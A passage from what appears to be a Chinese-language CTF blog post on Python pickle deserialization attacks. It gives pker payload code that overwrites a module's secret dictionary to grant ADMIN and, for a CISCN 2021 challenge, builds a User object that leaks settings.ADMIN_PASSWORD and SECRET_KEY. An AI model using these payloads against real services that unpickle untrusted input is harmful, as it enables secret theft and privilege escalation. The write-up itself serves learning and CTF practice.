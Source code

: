 若使用 pker 库生成，则对应代码为

```python
secret = GLOBAL('__main__', 'secret')
update = GLOBAL('__builtin__', 'getattr')(secret, 'update')
update({'ADMIN': 1})
return
```



### 获取其它模块中的隐私数据

通过 `c` 操作码还可以获取到其它模块中的隐私数据，比如 2021 年国赛西南分区赛 Web3

```python
from settings import SECRET_KEY, User, ADMIN_PASSWORD

……

@app.route('/load')
def loads():
    data = request.args.get('data', '')
    if data:
        Haha = restricted_loads(base64.b64decode(data))
        assert isinstance(Haha, User)
        if Haha.password == ADMIN_PASSWORD:
            return render_template('index.html', msg=Haha.msg)
        return render_template('index.html', msg="<img src='" + url_for('static', filename='img/2.jpeg') + "'><br>给👴🏻爬")
    return render_template('index.html', msg="<img src='" + url_for('static', filename='img/2.jpeg') + "'><br>儒 雅 随 和")
```

我们可以通过获取 `settings.ADMIN_PASSWORD` `settings.SECRET_KEY` 并分别赋给 `Haha.password` `Haha.msg` 的方法泄露 `SECRET_KEY`，再以此进行后续操作

> 这题不知道为什么直接用 V0 版本的序列化数据会 500 (也有可能是我当时写的有问题)，所以现场分析了一下默认版本 V4 的字节码然后手改了一下最后过了，具体分析详见这篇文章 [CISCN 2021 西南分区赛 Web3 Break&Fix](/posts/ciscn-2021-ws-web3/)

这里就简单写一下应该可以用的 pker 对应代码

```python
User = GLOBAL('__main__', 'User')
Haha = OBJ(User)
Haha.password = GLOBAL('settings', 'ADMIN_PASSWORD')
Haha.msg = GLOBAL('settings', 'SECRET_KEY')
return Haha
```



## 0x04 后记

由于我自己对 Python 的了解程度很一般，用到 pickle 反序列化的地方也不是很多，很多地方理解的不是很到位，写的也不是很清楚，所以这篇随便糊的文章仅供参考，如有错误请大佬们轻喷
